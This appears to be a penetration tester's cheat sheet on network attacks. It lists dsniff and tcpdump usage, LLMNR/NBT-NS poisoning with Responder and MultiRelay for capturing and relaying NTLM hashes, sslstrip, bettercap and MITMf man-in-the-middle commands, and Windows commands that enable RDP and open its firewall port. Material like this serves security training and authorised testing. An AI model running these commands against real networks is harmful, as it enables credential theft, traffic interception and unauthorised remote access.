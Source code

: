 	Tools :

		dsniff:

			active/passive sniffing, MITM attacks, monitoring the network for data such as passwords, emails, files etc.

			uses:

				Passive - filesnarf, mailsnarf, msgsnarf, urlsnarf, webspy
				Active - arpspoof, dnsspoof, macof
				MITM - sshmitm, webmitm

		TCPdump(-or- windump for windows):

			tcpdump -i eth0(wlan0,tap0...)
			needs creds decoding from base64 - echo <base64> | base64 -d

			tcpdump -D - shows available interfaces for sniffing
			tcpdump -i eth0(wlan0,tap0...) - sniff traffic on interface
			tcpdump -v - verbose mode
			tcpdump -q - quiet option
			tcpdump -i eth0 host www.website.com - show only traffic between host and website
			tcpdump -i eth0 src <IP> dst <IP> - show only traffic between source IP and destination IP
			tcpdump -F - import to file
			tcpdump -c <num of packets> - stop capturing after a certain amount of packets captured


	LLMNR/NBT-NS Poisoning:

		1. HOST A requests an SMB share, but has a typo in the SMB address he's trying to access
		2. since it can't be resolved by the DNS, HOST A falls back to LLMNR/NBT-NS broadcast msg asking the LAN for the ip address of the typo share
		3. HOST B responds to this message claiming to be the typo share system
		4. HOST A complies and sends HOST B their username and NTLMv1/v2 hash

		Responder:

			SMB-Signing check - runfinger.py -i <target>

			modify responder.conf - SMB=OFF, HTTP=OFF

			responder -I eth0(wlan0,tap0...) --lm
			+
			multirelay.py -t <target> -u ALL
			

	setup port redirection -> iptables -t nat -A PREROUTING -p tcp  --destination-port 80 -j REDIRECT --to-ports 8080

	sslstrip -a -f -l 8080 -w ssl_usr

	bettercap -G <TARGET_IP> -T <VICTIM_IP> --proxy-https

	python mitmf.py -i eth0 --spoof -arp --dns --hsts --gateway <GATEWAY_IP> --targets <TARGET_IP>


	see which port is enabled - netstat -an |findstr :<port>
	see firewall rules - netsh firewall show config
	enable RDP - reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
	open RDP on FW - netsh firewall add portopening TCP 3389 "Remote Desktop"
